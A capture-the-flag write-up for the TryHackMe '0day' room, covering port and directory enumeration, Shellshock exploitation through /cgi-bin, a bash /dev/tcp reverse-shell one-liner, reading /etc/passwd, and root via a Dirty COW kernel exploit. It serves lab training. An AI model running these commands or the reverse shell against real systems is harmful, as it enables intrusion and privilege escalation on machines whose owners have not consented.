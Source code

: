 0day (THM) Write-up

[<img src="../_resources/2b0e552866874d26b15798ba3b97972d.png" alt="THMlogo.png" width="213" height="119" class="jop-noMdConv">](https://tryhackme.com/room/0day)  

![Linked.png](../_resources/dab916cabda74d18a4dd0cda508c7db3.png)


This is new box from [Try Hack Me](https://tryhackme.com/room/0day) which was rated as a medium box.  
To be honest, for me this box was more like an easy box.

## Enumeration
Let's start by scaning the box for open ports using nmap.
**Command:** `nmap -A $IP`
![22db34cb5350febd100eda77a3ec533c.png](../_resources/ee72e3e44a6c48cf96a5197a49efe96e.png)
We can se from the above result that there are only 2 open ports:
**- port 22 SSH**
**- port 80 HTTP**

Visiting the port 80, we can't get to much information from it, just some link for different socials.
![9e8cafa941df713ce58f3fb528e7bc37.png](../_resources/1a31e9595abf48e1b09d02a1cf659d83.png)

Let's start a directory scaning using gobuster.
**Command:** `gobuster dir -u $IP -w /path/to/wordlist/ -x extension type`
![eed0aa0835806446ced3afc8c07afce8.png](../_resources/88c688358581482c8b3d3638d6dc9a4e.png)

Except the 403 result, we have some interesting directories:
**- /admin**
**- /cgi-bin**
**- /js**
**- /css**
**- /img**
**- /uploads**
**- /backup**
**- /robots.txt**
**- /secret**

As expected,the robots.txt file won't help us.
![8006ce5e696d2f7cd579c8eec12f588e.png](../_resources/4da603b02ed445aaad0f817480d2e519.png)

On the **/backup** page we can find a RSA key used for SSH login.
![d5addc522b6e2dae3aea390efc57a0a0.png](../_resources/105084b953ce4e88898ca4f93b1a4a99.png)
I found the passphrase for the RSA key by using JohnTheRipper, but i'm pretty sure that this is a rabbithole.

On the **/secret** page, the creator leaves the same clue as the one on the box page: ***a turtle***.
![46678c184c60b5ea7703c08d8f2188c4.png](../_resources/d2c36abb5b2448f89f2b63ac82cd7173.png)
For those that don't know, there is an exploit called **shellshock** which is usually represented by a turtle or a turtle shell, so this for me was clear on what to do next.

But let's say we didn't knew what that turtle represent or why was there. The next thing to do was to brute force the other directories. The only directory that would have given us a result would be the **/cgi-bin** directory, as shown bellow:

**Command:** `gobuster dir -u $IP/cgi-bin/ -w /path/to/wordlist/ -x sh,cgi`
This time is used **.sh** and **.cgi** as extensions.
![e21feb406c5ff931f90f9ccf4074ea4f.png](../_resources/baab7a698a0742eeb1330fecbc634b05.png)

Now if would not know what to do next, googling for **/cgi-bin exploit** would have put you on the right path.
Let's see if there is a shellshock vulnerability. For this i used an automated tool, but i would recommend you to test it manually so you can understand the exploit.

The tool used by me wall called **shocker** and you can find it on github.
As show in the image below i tried to read **/etc/passwd**, and it worked.
**Command type:** `/bin/cat /etc/passwd`
![11058c7498445af004fde50e3556b483.png](../_resources/8e76d50844304688a77e1ea143598e35.png)

## Foothold
Shell as **www-data**

Now it's time to get a shell on the box. Using the same exploit i could get a reverse shell
**Command:** `/bin/bash -c '/bin/bash -i >& /dev/tcp/$YOUR IP/$YOUR PORT 0>&1'`
Note: To get a stable shell use the next commmands:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
press **CTRL+Z** then type `stty raw -echo` and finally type `fg`
`export TERM=xterm`
![8480769e9f44617e13b4772747c4426b.png](../_resources/03566ff467f042918e959e974f54c3e8.png)

## Privilege escalation
If you use **linpeas** and read the results, you can clearly see what's the path to exploit this box to get root: **kernel exploit**
![4be0f384a790cf0d0d35e508d7b3b45c.png](../_resources/a81d7c969b25423abdb24999e2efa245.png)
This is an old kernel **3.13.0-32-generic**. If you would access the link that linpeas suggests for kernel exploit, you would find a github link for different variation of the **dirtycow** exploit.
**Link:** [https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

Shell as **root**
I used the the **cowroot** one, which worked for me but was unstable. I didn't tried other variants of the exploit because i was able to read the root.txt flag.
![f074d15262013473759f9924d2faf00c.png](../_resources/ad8d1f1c66b94ba585abac2dc848a2a6.png)

## Flags
![e91b0e4918e2fce413e4a5ccfbaabbac.png](../_resources/4776d038acca4b22abf5a490552c5e73.png)